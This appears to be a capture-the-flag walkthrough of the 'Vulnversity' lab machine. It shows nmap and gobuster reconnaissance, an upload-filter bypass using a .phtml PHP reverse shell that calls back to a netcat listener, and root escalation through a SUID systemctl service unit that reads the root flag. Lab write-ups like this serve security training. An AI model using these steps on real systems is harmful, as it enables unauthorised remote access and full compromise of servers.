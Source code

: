 # Vulnversity

## Recon and scanning machine

first thing's first. save that IP
```
export IP=10.10.12.13
```
ping it until it is given us a response

let's run a scan against this machine using NMAP

```
nmap -sV -vv $IP
```
nmap flag	Description
-sV			Attempts to determine the version of the services running

-p or -p-	Port scan for port <x> or scan all ports

-Pn			Disable host discovery and just scan for open ports

-A			Enables OS and version detection, executes in-build scripts for further enumeration 

-sC			Scan with the default nmap scripts
-v			Verbose mode
-sU			UDP port scan
-sS			TCP SYN port scan

Questions

2  Scan the box, how many ports are open?
3 	What version of the squid proxy is running on the machine? 3.5.12
4 	How many ports will nmap scan if the flag -p-400 was used? 400
5 	Using the nmap flag -n what will it not resolve? DNS
6 	What is the most likely operating system this machine is running? Ubuntu
7 	What port is the web server running on? 3333
8 	Its important to ensure you are always doing your reconnaissance thoroughly before progressing. Knowing all open services (which can all be points of exploitation) is very important, don't forget that ports on a higher range might be open so always scan ports after 1000 (even if you leave scanning in the background)

## Locating directories

Download GoBuster

Run this command

```
 % gobuster dir -u http://$IP:3333 -w /usr/share/wordlists/dirb/big.txt
 ```
The output should shoow some directories to investigate
```

===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.200.189:3333
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/big.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/05/12 18:09:32 Starting gobuster
===============================================================
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/css (Status: 301)
/fonts (Status: 301)
/images (Status: 301)
/internal (Status: 301)
/js (Status: 301)
/server-status (Status: 403)
===============================================================
2020/05/12 18:10:24 Finished
===============================================================
```

2 	What is the directory that has an upload form page? 
```
/internal
```
## Compromise the server

Now we have the upload form, we can use netcat and a reverse shell to give us access to the server

Now, we have to find out which extensions are blocked and which aren't. We are given a small wordlist to try
```
.php
.php3
.php4
.php5
.phtml
```
First, we need to upload a file to grab the parameters that Burp wants to exploit

if we send a file to the internal upload form, we can grab that parameter and try our mini word list

Of the word list, only .phtml files are not blocked. We can rename our reverse shell to .phtml, use our
local credentials (tun0 and any port we like) and gain access with netcat.

The only part of the reverse shell that needs changing is below..

```
set_time_limit (0);
$VERSION = "1.0";
$ip = '10.9.0.71';  // CHANGE THIS TO YOUR VPN IP
$port = 4444;       // CHANGE THIS TO ANY PORT YOU WILL REMEMBER
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;
```

once this is saved as reverse-shell.phtml (or soemthing you will remember)

launch netcat with the port you have chosen

```
nc -lvnp 4444
```
That is now listening on port 4444 and waiting for my reverse shell

Now, we can naviagte to /internal and upload our reverse shell

If we get a success message, we can then go to /internal/uploads/

If you see the reverse shell file, click it and NC will access.

If the reverse shell is not there, it has failed. The server is not stable, so try again until you get in.

## Escalating privilege

1 On the system, search for all SUID files. What file stands out? /bin/systemctl

Now, we are going to use SUID (set own user id) to escalate our privileges and get to root.

On google, these are the most common commands to SUID

```
find "$DIRECTORY" -perm /4000

find "$DIRECTORY" -perm /2000

find "$DIRECTORY" -perm /6000

find "$DIRECTORY" -perm /u=s,g=s
```

*copied from N0wn walkthrough*

First we create a variable which holds a unique file.
```
$ eop=$(mktemp).service
```

This is the unit file that is written into the variable

```	
$ echo '[Service]
> ExecStart=/bin/sh -c "cat /root/root.txt > /tmp/output"
> [Install]
> WantedBy=multi-user.target' > $eop
```

now a file called output is created in the tmp folder
```
$ /bin/systemctl link $eop
Created symlink from /etc/systemd/system/tmp.x1uzp01alO.service to /tmp/tmp.x1uzp01alO.service.
$ /bin/systemctl enable --now $eop
Created symlink from /etc/systemd/system/multi-user.target.wants/tmp.x1uzp01alO.service to /tmp/tmp.x1uzp01alO.service.
```
run the command to see if it worked...

```	
$ ls -lah /tmp
```
```
total 40K
drwxrwxrwt  8 root     root     4.0K Sep 11 08:02 .
drwxr-xr-x 23 root     root     4.0K Jul 31 18:29 ..
drwxrwxrwt  2 root     root     4.0K Sep 11 06:43 .ICE-unix
drwxrwxrwt  2 root     root     4.0K Sep 11 06:43 .Test-unix
drwxrwxrwt  2 root     root     4.0K Sep 11 06:43 .X11-unix
drwxrwxrwt  2 root     root     4.0K Sep 11 06:43 .XIM-unix
drwxrwxrwt  2 root     root     4.0K Sep 11 06:43 .font-unix
-rw-r--r--  1 root     root       33 Sep 11 08:02 output
drwx------  3 root     root     4.0K Sep 11 06:43 systemd-private-08e99713731549f5bfffde65043f0c88-systemd-timesyncd.service-5k0yVW
-rw-------  1 www-data www-data    0 Sep 11 07:58 tmp.x1uzp01alO
-rw-rw-rw-  1 www-data www-data  103 Sep 11 07:59 tmp.x1uzp01alO.service
```
There is a file called output and inside that file is the flag.